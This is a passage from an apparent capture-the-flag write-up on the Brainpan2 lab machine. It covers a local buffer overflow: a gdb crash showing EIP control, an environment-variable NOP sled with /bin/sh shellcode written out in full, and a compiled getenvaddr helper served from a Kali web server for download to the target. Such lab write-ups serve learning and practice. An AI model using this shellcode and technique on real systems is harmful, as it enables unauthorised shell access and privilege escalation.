 ```
(gdb) run $(perl -e 'print "A"x14 . "B"x4 . "C"x100') hi
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/reynard/msg_root $(perl -e 'print "A"x14 . "B"x4 . "C"x100') hi

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

I figured the next two steps were to find an address to return to, be it a 'jmp esp', or something useful. Since this was a local linux application, however, I found I could just put the shellcode in memory as an environment variable, and then jump directly to the address. I started off by finding some shellcode I'd used in the past, which would run /bin/sh, and setting it to an environment variable with a little NOP sled.

```
anansi@brainpan2:/home/reynard$ export SHELLCODE=$(perl -e 'print "\x90"x32 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
```

All I needed now was to find the address of this environmental variable. I used a tool from 'Hacking: The Art of Exploitation', one of my favorite books for this stuff. Since there was no 'gcc' on Brainpan2, I had to compile the tool on a local linux machine (I used a Kali VM), and then download it to the Brainpan VM.

```
root@kali:~# cat > getenvaddr.c << EOF
> #include <stdio.h>
> #include <stdlib.h>
> #include <string.h>
> 
> int main(int argc, char *argv[]) {
>         char *ptr;
>         if(argc < 3) {
>                 printf("Usage: %s <environment var> <target program name>\n", argv[0]);
>                 exit(0);
>         }
> 
>         ptr = getenv(argv[1]); /* Get env var location. */
>         ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
>         printf("%s will be at %p\n", argv[1], ptr);
> }
> EOF
root@kali:~# gcc -o getenvaddr getenvaddr.c 
root@kali:~# mv getenvaddr /var/www
root@kali:~# service apache2 start
[....] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName
. ok 
root@kali:~# ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:0d:d8:41  
          inet addr:192.168.188.138  Bcast:192.168.188.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe0d:d841/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:17 errors:16 dropped:0 overruns:0 frame:0
          TX packets:28 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:2033 (1.9 KiB)  TX bytes:2370 (2.3 KiB)
          Interrupt:19 Base address:0x2024 
```
